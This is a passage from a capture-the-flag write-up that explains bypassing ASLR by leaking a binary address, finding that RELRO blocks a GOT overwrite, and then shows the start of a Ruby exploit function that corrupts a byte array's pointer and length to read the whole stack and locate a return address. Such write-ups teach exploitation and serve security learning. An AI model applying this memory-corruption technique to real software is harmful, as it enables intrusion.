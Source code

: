 which is 0xb7ffebb0, in this case. I know&mdash;from the disassembled code&mdash;that this value is always 0x2bb0 bytes from the start of the binary, so I can calculate that the base address is 0xb7ffebb0 - 0x2bb0, or at address 0xb7ffc000 on this particular execution. From now on, I can base every address on that.

And thus, ASLR has been bypassed for the binary. But not, sadly, for the stack. I couldn't find any way to leak a useful stack address.

<h3>Controlling EIP</h3>

Up till now, every writeup I've read has taken essentially the same steps, although they don't go through them in as much detail as me (I love writing :) ). However, this is where paths diverge, and no two people have taken the same one.

The most obvious solution to controlling EIP is to overwrite the global offset table, which is the same as the solution to TI-1337. But, after a lot of mysterious crashing and debugging, I found out what <a href='http://tk-blog.blogspot.com/2009/02/relro-not-so-well-known-memory.html'>RELRO</a> means: it means that the relocations are re-mapped as read-only after they are filled in. The .dtor section (destructors) are likewise mapped as read-only. Crap!

I spent a long, long time trying to figure out what to overwrite. Can I cause path traversal? Can anything in the .data section cause an overflow? Can I read a stack address from anywhere in known memory? etc. etc., but no dice.

Eventually, I realized that I could read large chunks of memory, so why don't I read the entire space where the stack <em>might</em> be? Experimentally, I determined that, at least on my system, the stack was always between 0xBF800000 and 0xBFFFFFFF. With that in mind, I wrote this beast:

<pre>
<span class="lnr"> 1 </span><span class="Comment"># This function is kind of an ugly hack, but it works reliably so I can't really</span>
<span class="lnr"> 2 </span><span class="Comment"># complain.</span>
<span class="lnr"> 3 </span><span class="Comment">#</span>
<span class="lnr"> 4 </span><span class="Comment"># It basically searches a large chunk of memory for a specific return address.</span>
<span class="lnr"> 5 </span><span class="Comment"># When it finds that address, it returns there.</span>
<span class="lnr"> 6 </span><span class="rubyDefine">def</span> <span class="Identifier">find_return_address</span>(s, base_addr)
<span class="lnr"> 7 </span>  address_to_find = [base_addr + <span class="Type">MAIN_RETURN_ADDRESS</span>].pack(<span class="Special">&quot;</span><span class="Constant">I</span><span class="Special">&quot;</span>)
<span class="lnr"> 8 </span>
<span class="lnr"> 9 </span>  <span class="Comment"># Store an array of doubles. This will overlap the next allocation</span>
<span class="lnr">10 </span>  store(s, <span class="Type">VARDATA_TYPE_DOUBLE_ARRAY</span>, [<span class="Constant">0x5e5e5e5e5e5e5e5e</span>] * <span class="Constant">4</span>)
<span class="lnr">11 </span>
<span class="lnr">12 </span>  <span class="Comment"># Store an array of bytes. We'll be able to change the length and locatino</span>
<span class="lnr">13 </span>  <span class="Comment"># of this buffer in order to read arbitrary memory</span>
<span class="lnr">14 </span>  store(s, <span class="Type">VARDATA_TYPE_BYTE_ARRAY</span>, [<span class="Constant">0x41</span>])
<span class="lnr">15 </span>
<span class="lnr">16 </span>  <span class="Comment"># Overwrite the location and size of the byte array. The location will be</span>
<span class="lnr">17 </span>  <span class="Comment"># set to STACK_MIN, and the size will be set to STACK_MAX - STACK_MIN</span>
<span class="lnr">18 </span>  edit(s, <span class="Constant">1</span>, <span class="Constant">3</span>, [<span class="Type">STACK_MIN</span>, (<span class="Type">STACK_MAX</span> - <span class="Type">STACK_MIN</span>)].pack(<span class="Special">&quot;</span><span class="Constant">II</span><span class="Special">&quot;</span>))
<span class="lnr">19 </span>  puts(<span class="Special">&quot;</span><span class="Constant">Reading the stack (0x%08x - 0x%08x)...</span><span class="Special">&quot;</span> % [<span class="Type">STACK_MIN</span>, <span class="Type">STACK_MAX</span>])
<span class="lnr">20 </span>